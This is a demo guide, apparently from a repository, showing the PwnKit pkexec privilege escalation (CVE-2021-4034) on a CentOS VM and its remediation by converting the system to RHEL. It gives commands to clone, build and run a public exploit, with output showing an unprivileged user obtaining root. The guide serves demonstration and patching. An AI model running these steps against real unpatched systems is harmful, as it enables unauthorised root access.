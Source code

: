 = Demo PwnKit security escallation and remediation

PwnKit is the name associated with https://access.redhat.com/security/cve/CVE-2021-4034[CVE-2021-4034] - Pkexec Local Privilege Escalation.

There are a number of sample escallation examples availble today including

* https://github.com/ly4k/PwnKit
* https://github.com/luijait/PwnKit-Exploit.git

For this demo we'll show how the standard Cloud Images for Centos
are impacted by the exploit that once updated to RHEL the exploit has been remediated

== Demo Pre-work ==

First we need a Centos Virtual machine

- Deploy a link:Demo_VM.adoc[local or cloud hosted Centos Linux environment]

For Centos 8 we also need to update the yum repositories to point to
the centos vault.

[source,bash]
----
ssh leapp2rhel

# wait for the login to complete

sed -i 's/^mirrorlist/#mirrorlist/g' /etc/yum.repos.d/CentOS-*
sed -i 's|#baseurl=http://mirror.centos.org|baseurl=https://vault.centos.org|g' /etc/yum.repos.d/CentOS-*
----


Install the required tools into your VM and build the exploit

[source,bash]
----

yum install gcc make


# Clone the exploit code, and build the exploit
git clone https://github.com/luijait/PwnKit-Exploit.git

cd PwnKit-Exploit/
make

Copy the exploit to a temp directory, and create a new user without sudo privileges
cp exploit /tmp/
useradd developer
Switch to the developer user, and copy the exploit binary to the home dir
cp /tmp/exploit /home/developer

----

== Live Demo ==

The flow is

* Show the exploit exists under our _developer_ user
* Convert link:Demo_Convert2RHEL.adoc[Centos environment to RHEL] with Convert2RHEL
* Show the exploit no longer works

[source,bash]
----

# Login as our developer user
ssh developer@leapp2rhel

sudo -i
# Should produce a response similar to
[sudo] password for developer:
developer is not in the sudoers file.
This incident will be reported.

./exploit
Current User before execute exploit
hacker@victim$whoami: developer
Exploit written by @luijait (0x6c75696a616974)mkdir: cannot create directory
‘GCONV_PATH=.’: File exists
mkdir: cannot create directory ‘tmp’: File exists
[+] Enjoy your root if exploit was completed succesfully
[root@centos8 developer]# id
uid=0(root) gid=0(root) groups=0(root),1001(developer)
context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
----

Convert link:Demo_Convert2RHEL.adoc[Centos environment to RHEL] with Convert2RHEL

[source,bash]
----
# Login as our developer user
ssh developer@leapp2rhel

./exploit
# Exploit fails

----

link:../README.adoc[Return]

